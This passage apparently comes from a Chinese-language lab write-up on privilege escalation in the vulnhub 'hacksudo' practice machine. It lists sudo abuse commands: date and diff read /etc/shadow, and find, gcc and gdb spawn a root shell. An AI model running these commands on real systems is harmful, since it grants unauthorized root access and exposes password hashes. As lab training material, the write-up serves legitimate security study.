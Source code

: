 ```shell
LFILE="/etc/shadow"
sudo date -f $LFILE
```

主要用于越权查看文件

![](D:\stu\vulnhub\hacksudo靶场\pic-lpe\48.jpg)

## diff提权

![](D:\stu\vulnhub\hacksudo靶场\pic-lpe\49.jpg)

```
LFILE="/etc/shadow"
sudo diff --line-format=%L /dev/null $LFILE
```

![](D:\stu\vulnhub\hacksudo靶场\pic-lpe\50.jpg)

## find提权

![](D:\stu\vulnhub\hacksudo靶场\pic-lpe\51.jpg)

```shell
sudo find . -exec /bin/sh \; -quit
```

![](D:\stu\vulnhub\hacksudo靶场\pic-lpe\52.jpg)



## ftp提权

![](D:\stu\vulnhub\hacksudo靶场\pic-lpe\53.jpg)

在其加载界面时输入`bash`

![](D:\stu\vulnhub\hacksudo靶场\pic-lpe\54.jpg)

## gcc提权

```shell
sudo gcc -wrapper /bin/sh,-s .
```

![](D:\stu\vulnhub\hacksudo靶场\pic-lpe\55.jpg)



## gdb提权

```shell
sudo gdb -nx -ex '!sh' -ex quit
```

